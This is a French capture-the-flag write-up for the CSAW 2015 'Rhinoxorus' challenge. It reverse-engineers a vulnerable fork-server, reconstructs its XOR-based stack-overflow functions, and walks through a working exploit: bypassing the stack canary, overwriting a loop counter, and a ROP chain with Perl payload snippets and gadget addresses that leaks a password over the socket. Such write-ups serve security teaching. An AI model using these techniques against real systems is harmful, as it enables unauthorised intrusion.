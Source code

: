 Title: [CSAW-preq 2015] Rhinoxorus (exploitable 500)
Date: 2015-09-24
Tags: ctf,exploit,csaw2015
Author: Tosh
Summary: CSAW ctf write-up


Voici un petit write-up pour le challenge 'rhinoxorus' du CSAW ctf 2015.

### **Analyse**

```
    $ rop-tool info ./repo/CTF/CSAW_preq_2015/exploit500

     ===== INFOS =====
    Filename                 ./repo/CTF/CSAW_preq_2015/exploit500
    File format              ELF32
    Architecture             x86
    Endianess                little endian
    Entry point              0x8048750
    Loadables segments       2
    Sections                 30

    NX bit                   enabled
    SSP                      enabled
    Relro                    partial
    RPATH                    no rpath
    RUNPATH                  no runpath
    PIE                      disabled
```

Il s'agit d'un fork-serveur écoutant sur le port 24242. Une fois connecté, le serveur lit une chaine de caractères, puis fais quelques opérations dessus. On arrive assez vite à faire planter le serveur en envoyant une chaine assez longue.


Au début du challenge, le code source n'était pas fourni (il le fût au bout d'un moment, mais j'avais déjà fini la partie reversing...), j'ai donc sorti IDA pour tenter de comprendre le fonctionnement de ce mystérieux programme.


On trouve dans le programme 256 fonctions, ayant la forme suivante (pas 100% fidèle) :

```c
    #define BUFF_SIZE(X) ((0x84 - (0x32 - X)*4) & 0xFF)
    #define CHAR_TO_FUNC(c) ((c + 0x32) & 0xFF)

    #define CALL_FUNC(x,s,c) do { functions[x](s,c); } while(0)

    #define FUNC(X)                                 \
      void func_X(char *buff, int count) {          \
        char s[BUFF_SIZE(X)];                       \
        int i;                                      \
                                                    \
        if(--count == 0)                            \
          return;                                   \
                                                    \
        memset(s, BUFF_SIZE(X), BUFF_SIZE(X));      \
                                                    \
        for(i = 0; i < count; i++) {                \
          s[i] ^= buff[i];                          \
        }                                           \
                                                    \
        CALL_FUNC(CHAR_TO_FUNC(s[0], ++s, count));  \
                                                    \
      }
```

On remarque que notre chaine de caractère est traité de cette manière :

```c
    CALL_FUNC(CHAR_TO_FUNC(buffer[0], buffer, len_received);
```

On peut constater que ces fonctions sont toutes vulnérables à un stack based overflow...

Maintenant, comment exploiter tout ça, en sachant qu'il y a Stack Smashing Protector ?


### **Exploitation**

Ma cible a été la fonction func_00 (il fallait en choisir une...)

Au début de ma chaine, je mets une rop-chain exécutant sock_send(sock, password, len). Ils ont été gentils de nous fournir cette fonction, en plus du password à une adresse fixe...
Mais je pense, qu'une fois qu'on était arrivé à faire exécuter notre rop-chain, il aurait été plutôt facile de réaliser une exploitation plus poussée (leak de la libc, mmap() d'un shellcode, etc...)

```perl
    $buff .= pack("L", 0x0804a5ce); # ret
    $buff .= pack("L", 0x0804884b); # sock_send()
    $buff .= pack("L", 0x44444444); # dummy
    $buff .= pack("L", 5);          # sock
    $buff .= pack("L", 0x0805f0c0); # @password
    $buff .= pack("L", 0x100);      # len

```

Au début de ma rop-chain, je mets un 'ret' car étant donné que le premier caractère de notre chaine détermine quelle fonction est appelée, il est plus facile de trouver une instruction ret avec un byte de poids faible permettant d'appeler notre fonction func_00().

```
$ rop-tool g ./repo/CTF/CSAW_preq_2015/exploit500 -d 1 -a -n | grep ret | grep "ce ->"
     0x0804a5ce -> ret ;
```

Je remplis ensuite le buffer à overflowé avec n'importe quoi...

** Comment bypasser le canary ?**

Étant donné que le buffer sur lequel nous débordons est xoré avec notre payload...Si on XOR le canary avec 0x0, notre canary ne sera pas modifié !

Ensuite, une fois la fonction func_00 appelée, nous souhaitons que l'exécution s'arrête afin d'éviter un segfault dans une autre fonction ayant un buffer plus petit. Pour se faire, on remarque qu'il est possible d'écraser la variable count, variable utilisée comme cas d'arrêt.

Si on met cette variable à 1, alors la prochaine fonction func_X appelée retournera immédiatement.

Étant donnée que dans func_00, la variable count vaut 0xd7 (taille de notre buffer - 1), il suffit de xorer cette valeur avec 0xd7 XOR 1.

En effet :

```
count = 0xd7 XOR (0xd7 XOR 1)

<=> count = (0xd7 XOR 0xd7) XOR 1

<=> count = 1

```

Ensuite, notre rop-chain (le buffer présent dans process_connection()), étant situé à ESP+0x1c octets au moment du retour de la fonction func_00, on a besoin d'écraser saved-eip par la valeur d'un gadget permettant d'incrémenter ESP de 0x1c octets.

```
$ rop-tool g ./repo/CTF/CSAW_preq_2015/exploit500 -d 10 | grep "add esp"
    0x080578f5 -> add esp, 0xc; pop ebx; pop esi; pop edi; pop ebp; ret ;
     ...
```

Par chance, nous trouvons pile ce qu'il nous faut.

Il ne faut pas oublier de XORER cette adresse avec l'ancien saved-eip dans notre payload.

On a tout ce qu'il faut pour créer notre exploit et obtenir le flag !

```perl
    $buff .= pack("L", 0x0);                     # canary
    $buff .= pack("L", 0x44444444)x3;            # padding

    $buff .= pack("L", 0x080578f5 ^ 0x08056afa); # add esp, 0xc, pop4 ; ret
    $buff .= pack("L", 0x44444444);              # dummy
    $buff .= pack("L", 0xd7 ^ 0x1);              # count
```

L'exploit se trouve ici : [exploit](https://github.com/t00sh/ctf/blob/master/csaw_preq_2015/exploit500.pl)

Et le binaire là : [binaire](https://t0x0sh.org/repo/CTF/CSAW_preq_2015/exploit500)


Challenge intéressant ; il fallait voir qu'on pouvait XORER le canary avec 0x0 et écraser la variable count afin de stopper l'exécution.
